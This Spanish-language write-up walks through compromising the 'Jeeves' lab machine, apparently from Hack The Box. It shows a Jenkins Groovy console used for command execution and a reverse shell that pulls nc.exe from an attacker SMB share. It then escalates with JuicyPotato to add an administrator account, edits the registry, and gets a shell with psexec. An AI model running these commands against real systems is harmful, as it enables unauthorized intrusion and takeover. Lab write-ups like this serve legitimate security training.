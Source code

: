 # Jeeves

## Enumeración

```bash
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open http Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

El escaneo muestra 2 paginas webs .

### Puerto 80

La pagina web del `puerto 80` muestra un buscador

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FOIQI4fVUSJHwjB2K8GkV%2Fimage.png?alt=media&#x26;token=f7de2c24-f015-4341-8ac3-a9f96c5dac63" alt=""><figcaption></figcaption></figure>

Al buscar cualquier cosa la pagina muestra un error

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FDTQnczzYotqMmenExKGJ%2Fimage.png?alt=media&#x26;token=ad14bc66-d14b-4ac0-84c5-615891bb38c5" alt=""><figcaption></figcaption></figure>

### Puerto 50000

La pagina web del `puerto 50000` muestra una pagina en html donde parece no haber nada interesante

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FxSFmCRxhxl6mX4SitqMH%2Fimage.png?alt=media&#x26;token=f4125cf5-3c8a-4ce4-b3aa-2902cef79af0" alt=""><figcaption></figcaption></figure>

Al hacer un escaneo de dominios con dirsearch podemos encontrar un directorio oculto `/askjeeves`&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FH9VdXPNrmVXAj7TNH3Gb%2Fimage.png?alt=media&#x26;token=d3085497-137c-458d-96d6-e4f53a91f5a7" alt=""><figcaption></figcaption></figure>

En esa ruta tenemos Jenkins, que es un servidor de automatización de código abierto.&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FZ4EfLwMkRMtQTU2pOLUg%2Fimage.png?alt=media&#x26;token=65c37ae2-6bc1-48a0-ac33-23e59103ebc0" alt=""><figcaption></figcaption></figure>

## Explotación

### Jenkins

Cuando nos topamos con un Jenkins hay que estar atento ya que si aparece la opción "Manage Jenkins". Esta opción trae un modulo donde podemos ejecutar comandos en el lenguaje Groovy.&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FNzMIbThtzvZKsu7WEpD4%2Fimage.png?alt=media&#x26;token=7a8ba68b-f5ce-4a50-8dfd-3ee9ec7d04de" alt=""><figcaption></figcaption></figure>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FCnnGxHpybg1c4GV70Rsz%2Fimage.png?alt=media&#x26;token=cfb3c7c3-2e79-4d28-a78f-956eb2b783c0" alt=""><figcaption></figcaption></figure>

Si buscamos en Internet podemos buscar como ejecutar comandos de shell con Groovy.

```go
println "ls".execute().text
```

Ya que podemos ejecutar comandos podemos hacer una reverse shell. En mi caso voy a crear un servidor SMB en mi maquina de atacante donde tengo un archivo nc.exe. También nos ponemos en escucha para recibir la shell.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

```bash
rlwrap nc -lvnp 4444
```

Y en la consola de Jenkins me mando una shell usando ese archivo

```go
println "\\\\10.10.14.36\\smbFolder\\nc.exe -e cmd 10.10.14.36 4444".execute().text
```

Y ya tendriamos acceso al `user.txt`&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fux14dsi8zN1ilrNk2SAo%2Fimage.png?alt=media&#x26;token=cec5a8b4-311b-4c1a-b722-82e51ae3781a" alt=""><figcaption></figcaption></figure>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FBi6v0cfUF3Oyz7QDyfQC%2Fimage.png?alt=media&#x26;token=dc86fd41-c30e-4cd4-bc0b-3ab20c2d3ac9" alt=""><figcaption></figcaption></figure>

## Escalada

Si vemos los privilegios de nuestro usuario con

```bash
whoami /priv
```

Podemos observar que tenemos el privilegio `SeImpersonatePrivilege` activado. Este privilegio se puede explotar con la herramienta `JuicyPotato` de la siguiente manera:

### JuicyPotato

Ya que tenemos un server smb propio vamos a meter el binario de JuicyPotato en el y vamos a pasarlo a la maquina victima.

```powershell
copy \\10.10.14.36\smbFolder\JuicyPotato.exe
```

Ahora intentamos crearnos un usuario usando esta herramienta.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user ub1cu0 Abc123. /add" -l 1337
</strong></code></pre>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FkFCAX9VguHPdY7TlOhUi%2Fimage.png?alt=media&#x26;token=908163ad-ceff-4072-9b1a-b9fbeeb59176" alt=""><figcaption></figcaption></figure>

Ahora que nos ha funcionado vamos a intentar moverlo al grupo Administradores.

{% code overflow="wrap" %}

```powershell
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators ub1cu0 /add" -l 1337
```

{% endcode %}

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FDJrcqXPL3IOSiShuoFQA%2Fimage.png?alt=media&#x26;token=520bfd6f-18e7-41bb-8b21-f735644f1d31" alt=""><figcaption></figcaption></figure>

Si intentamos checkear el logeo con `netexec` para ver si sale la flag "(Pwned!)" no va a salir, esto se debe a que para que salga, aparte de tener al usuario en el grupo administradores hay que editar un registro que hay en Windows que por defecto no permite la conexión remota con el usuario administrador con SMB.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F83bnX2sZ2pKykkwZRUeb%2Fimage.png?alt=media&#x26;token=62a7d6d9-3724-489f-9d0c-483be05b7f6b" alt=""><figcaption></figcaption></figure>

Vamos a editar el registro para permitirlo con:

{% code overflow="wrap" %}

```powershell
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
```

{% endcode %}

Y ahora veremos la flag (Pwned!)

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F2iNbIq2U7V9zphIq2Utr%2Fimage.png?alt=media&#x26;token=28fb830e-7f33-4f57-bf7b-ce1e53bf459f" alt=""><figcaption></figcaption></figure>

### PsExec

Ahora podemos usar la herramienta `PsExec` y usar el servicio smb para conseguir una shell del usuario "Administrator" con el siguiente comando:

```bash
impacket-psexec WORKGROUP/ub1cu0@jeeves.htb cmd.exe
```

Este comando necesita que el usuario tenga la etiqueta (Pwned!) con el netexec y que posea permiso para escribir en alguna carpeta SMB. En este caso con el usuario que hemos creado y que hemos hecho admin tenemos acceso de escritura en el recurso `ADMIN$` pero si no hubiera ningún recurso que cumpliera estos objetivos podríamos crear uno y funcionaría igual.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FWRCj03ie2PmTlMuJ4Jbp%2Fimage.png?alt=media&#x26;token=06962b0f-6793-4153-8910-c7fd5746e51d" alt=""><figcaption></figcaption></figure>

### Alternate Data Streams

Ahora ya tendríamos acceso a la flag `root.txt` pero en este caso no es así ya que, si vamos a la carpeta donde debería estar encontraremos este archivo que nos incita a buscar mas profundo.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fqo5sbamx16kvQg0YwUf2%2Fimage.png?alt=media&#x26;token=c34cef95-8776-49ca-bcd1-ee96f11a610f" alt=""><figcaption></figcaption></figure>

En este caso hay que saber de la existencia de las Data Alternate Stream, que en resumen en una forma de guardar texto oculto en ficheros de texto. Esto se puede ver si ponemos la flag `/r` a `dir` .

&#x20;&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FERuENUow6JowIBENrBNY%2Fimage.png?alt=media&#x26;token=d8551993-21d9-4dbb-9e88-6514bc2a0705" alt=""><figcaption></figcaption></figure>

Ahora que vemos el archivo oculto podemos ver su contenido volcandolo al comando more de la siguiente manera:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FPtOMRzegBgvhrOUvc8fo%2Fimage.png?alt=media&#x26;token=47dae2d3-da56-4417-99c1-654a00d1543c" alt=""><figcaption></figcaption></figure>

Y así habremos completado la maquina Jeeves. Gracias por leer!&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F6Ed0pvcJfCGvDm0rgHSp%2Fimage.png?alt=media&#x26;token=c898ed26-2658-4944-8598-739f06dac8ab" alt=""><figcaption></figcaption></figure>
